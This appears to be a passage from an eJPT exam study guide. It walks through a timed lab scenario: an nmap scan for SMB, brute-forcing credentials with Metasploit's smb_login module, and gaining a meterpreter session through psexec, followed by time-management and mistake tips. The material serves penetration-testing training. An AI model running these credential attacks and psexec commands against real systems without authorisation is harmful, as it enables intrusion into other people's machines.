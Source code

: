 #### **Scenario 3: Multi-Host SMB Assessment**
**Given:** Network range with multiple Windows systems
**Your Job:** Identify systems with weak SMB credentials
**Time Limit:** 10-15 minutes

**How to Approach:**
```bash
# Step 1: Network discovery (3 minutes)
nmap -p445 192.168.1.0/24
# Identify live hosts with SMB

# Step 2: Bulk credential testing (5 minutes)
use auxiliary/scanner/smb/smb_login
set RHOSTS 192.168.1.100-120
set USER_FILE /usr/share/wordlists/common_users.txt
set PASS_FILE /usr/share/wordlists/passwords.txt
set THREADS 5
set VERBOSE false
exploit

# Step 3: Target high-value systems (4 minutes)
# Focus on systems with administrative access
use exploit/windows/smb/psexec
set RHOSTS [high_value_target]
set SMBUser Administrator
set SMBPass [discovered_password]
exploit

# Step 4: Document findings (3 minutes)
# Record all successful credential combinations
# Note system access levels achieved
```

### **📝 eJPT Exam Tips:**

#### **⏰ Time Management:**
- **2-3 minutes:** Initial port scanning and service identification
- **3-4 minutes:** Credential brute-force attack setup and execution
- **2-3 minutes:** PSExec exploitation and session establishment
- **2-3 minutes:** Post-exploitation activities and flag capture
- **1-2 minutes:** Documentation and next target preparation

#### **🎯 Mistakes to Avoid:**
1. **Skipping Protocol Enumeration** → Always check SMB versions before attacking
2. **Wrong Wordlist Paths** → Verify file paths exist before starting attacks
3. **Ignoring VERBOSE Setting** → Set VERBOSE false to reduce output clutter
4. **Not Checking Session Status** → Verify meterpreter session before proceeding
5. **Forgetting Shell Command** → Remember to drop to shell for file system access

#### **✅ Signs You're Doing Well:**
- **Port 445 Identified:** Nmap clearly shows SMB service available
- **Credentials Found:** smb_login module reports successful authentication
- **Session Established:** Meterpreter prompt appears with session number
- **System Access:** Shell command provides Windows command prompt
- **Flag Captured:** Successfully locate and read target flag file
